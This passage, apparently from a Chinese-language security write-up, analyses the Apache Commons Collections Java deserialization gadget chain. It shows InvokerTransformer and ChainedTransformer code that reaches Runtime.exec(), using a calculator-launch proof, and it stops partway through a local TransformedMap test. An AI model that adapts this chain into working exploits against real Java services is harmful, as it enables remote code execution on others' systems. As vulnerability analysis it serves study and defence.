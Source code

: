 ![IMAGE](/assets/resources/80C6419CC4F4711CAEEE88A5C3547F6F.jpg)

第四次执行，我们调用对象`Runtime`的方法`exec()`，此处发生代码执行
```
new InvokerTransformer(
    "exec", 
    new Class[] { String.class }, 
    new Object[] { "open /System/Applications/Calculator.app" }
)

Class cls = object.getClass();
Method method = cls.getMethod("exec", new Class[] { String.class });
return method.invoke(object, new Object[] { "open /System/Applications/Calculator.app" });
```

所以代码执行这一套就分析到这里，另一个关键的问题是，我们如何触发这一套流程呢？

这里涉及到了一个`TransformedMap`类，这个类是对Java数据结构Map的扩展，当`TransformedMap`内元素发生变化时，会触发自定义的`Transformer`

本地测试如下
```
public class SerialBug {

    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "open /System/Applications/Calculator.app" }) };
        
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("KEY", "VALUE");
        
```
